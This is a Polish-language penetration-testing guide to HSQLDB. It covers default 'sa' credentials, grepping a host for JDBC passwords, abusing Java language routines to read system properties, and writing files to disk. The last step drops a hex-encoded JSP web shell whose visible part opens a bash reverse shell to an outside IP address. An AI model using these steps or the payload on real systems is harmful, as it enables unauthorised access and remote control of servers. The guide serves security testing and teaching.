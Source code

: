 {{#include ../banners/hacktricks-training.md}}

# Podstawowe informacje

**HSQLDB \([HyperSQL DataBase](http://hsqldb.org/)\)** jest wiodącym systemem relacyjnej bazy danych SQL napisanym w Javie. Oferuje mały, szybki, wielowątkowy i transakcyjny silnik bazy danych z tabelami w pamięci i na dysku oraz obsługuje tryby osadzone i serwerowe.

**Domyślny port:** 9001
```text
9001/tcp open  jdbc      HSQLDB JDBC (Network Compatibility Version 2.3.4.0)
```
# Informacje

### Ustawienia domyślne

Zauważ, że domyślnie ta usługa prawdopodobnie działa w pamięci lub jest przypisana do localhost. Jeśli ją znalazłeś, prawdopodobnie wykorzystałeś inną usługę i szukasz podniesienia uprawnień.

Domyślne dane logowania to zazwyczaj `sa` z pustym hasłem.

Jeśli wykorzystałeś inną usługę, poszukaj możliwych danych logowania za pomocą
```text
grep -rP 'jdbc:hsqldb.*password.*' /path/to/search
```
Zauważ nazwę bazy danych - będziesz jej potrzebować do połączenia.

# Zbieranie informacji

Połącz się z instancją DB, pobierając [HSQLDB](https://sourceforge.net/projects/hsqldb/files/) i rozpakowując `hsqldb/lib/hsqldb.jar`. Uruchom aplikację GUI \(eww\) używając `java -jar hsqldb.jar` i połącz się z instancją używając odkrytych/słabych poświadczeń.

Zauważ, że adres URL połączenia będzie wyglądał mniej więcej tak dla systemu zdalnego: `jdbc:hsqldb:hsql://ip/DBNAME`.

# Sztuczki

## Routines języka Java

Możemy wywoływać statyczne metody klasy Java z HSQLDB używając Routines języka Java. Zauważ, że wywoływana klasa musi być w classpath aplikacji.

JRT mogą być `funkcjami` lub `procedurami`. Funkcje mogą być wywoływane za pomocą instrukcji SQL, jeśli metoda Java zwraca jedną lub więcej zmiennych prymitywnych zgodnych z SQL. Są wywoływane za pomocą instrukcji `VALUES`.

Jeśli metoda Java, którą chcemy wywołać, zwraca void, musimy użyć procedury wywoływanej za pomocą instrukcji `CALL`.

## Odczytywanie właściwości systemu Java

Utwórz funkcję:
```text
CREATE FUNCTION getsystemproperty(IN key VARCHAR) RETURNS VARCHAR LANGUAGE JAVA
DETERMINISTIC NO SQL
EXTERNAL NAME 'CLASSPATH:java.lang.System.getProperty'
```
Wykonaj funkcję:
```text
VALUES(getsystemproperty('user.name'))
```
Możesz znaleźć [listę właściwości systemowych tutaj](https://docs.oracle.com/javase/tutorial/essential/environment/sysprop.html).

## Zapisz zawartość do pliku

Możesz użyć gadżetu Java `com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename` znajdującego się w JDK \(automatycznie załadowanym do ścieżki klas aplikacji\), aby zapisać elementy zakodowane w formacie hex na dysku za pomocą niestandardowej procedury. **Zauważ maksymalny rozmiar 1024 bajtów**.

Utwórz procedurę:
```text
CREATE PROCEDURE writetofile(IN paramString VARCHAR, IN paramArrayOfByte VARBINARY(1024))
LANGUAGE JAVA DETERMINISTIC NO SQL EXTERNAL NAME
'CLASSPATH:com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename'
```
Wykonaj procedurę:
```text
call writetofile('/path/ROOT/shell.jsp', cast ('3c2540207061676520696d706f72743d226a6176612e696f2e2a2220253e0a3c250a202020537472696e6720636d64203d20222f62696e2f62617368202d69203e26202f6465762f7463702f3139322e3136382e3131392[...]' AS VARBINARY(1024)))
```
{{#include ../banners/hacktricks-training.md}}
